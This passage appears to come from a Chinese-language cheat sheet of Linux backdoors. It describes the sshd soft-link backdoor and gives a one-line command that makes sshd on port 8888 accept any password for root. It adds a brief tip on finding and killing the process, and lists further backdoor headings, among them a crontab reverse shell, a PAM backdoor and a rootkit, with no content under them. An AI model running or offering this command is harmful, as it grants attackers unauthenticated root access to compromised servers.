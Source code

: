  ```

通过软连接的方式，实质上PAM认证是通过软连接的文件名 /tmp/su 在 /etc/pam.d/ 目
录下寻找对应的PAM配置文件(如: /etc/pam.d/su)

使用方法：
在目标服务器上执行一句话后门：
```ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888```
执行完之后，任何一台机器 ssh root@IP -p 8888 ，输入任意密码，成功登录。

排查技巧：
进程、端口都可以发现异常， kill -s 9 PID 结束进程即可清除后门。

##### SSH wrapper

##### strace后门

##### crontab反弹shell

##### openssh后门

##### PAM后门

##### rookit后门
